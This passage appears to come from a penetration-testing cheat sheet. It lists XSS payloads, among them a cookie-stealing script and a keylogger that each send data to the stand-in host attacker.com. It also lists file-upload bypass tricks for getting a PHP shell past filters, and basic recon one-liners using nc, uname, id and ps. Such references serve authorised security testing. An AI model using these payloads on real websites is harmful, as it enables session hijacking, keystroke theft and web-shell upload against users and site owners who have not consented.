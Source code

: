 ### XSS Payloads
```javascript
// Basic XSS
<script>alert('XSS')</script>

// Cookie stealing
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

// Keylogger
<script>document.onkeypress=function(e){fetch('http://attacker.com/log.php?key='+String.fromCharCode(e.which))}</script>
```

### File Upload Bypass
```bash
# Double extension
shell.php.jpg

# Null byte
shell.php%00.jpg

# MIME type spoofing
Content-Type: image/jpeg
```

## 🔧 Useful One-Liners

### Network
```bash
# Check connectivity
ping -c 1 8.8.8.8

# Port check
nc -zv target.com 80

# HTTP request
curl -I https://target.com
```

### System Information
```bash
# OS info
uname -a

# User info
id

# Network interfaces
ip addr show

# Running processes
ps aux
```
